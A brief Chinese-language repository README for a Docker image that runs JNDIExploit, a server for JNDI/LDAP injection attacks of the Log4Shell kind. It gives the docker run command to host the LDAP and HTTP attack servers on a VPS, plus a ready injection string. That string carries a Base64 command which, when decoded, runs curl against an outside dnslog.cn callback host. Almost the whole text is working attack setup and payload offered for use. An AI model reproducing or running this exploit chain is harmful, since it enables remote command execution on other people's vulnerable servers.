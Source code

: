 # jndiexp
自用的一键启动JNDIExploit-1.2-SNAPSHOT.jar
用法：

docker run -it --rm -e LDAP_PORT=1389 -e VPS_IP=你的VPSIP -e HTTP_PORT=8000 -p 8000:8000 -p 1389:1389 coffeehb/jndiexp:latest

JNDI：

```
JNDI:ldap://你的VPSIP:1389/Basic/Command/Base64/Y3VybCB4eHh4c3Nzam5kaWV4cHgyMjJ4eC50cnh4emZpLmkuZG5zbG9nLmNu
```
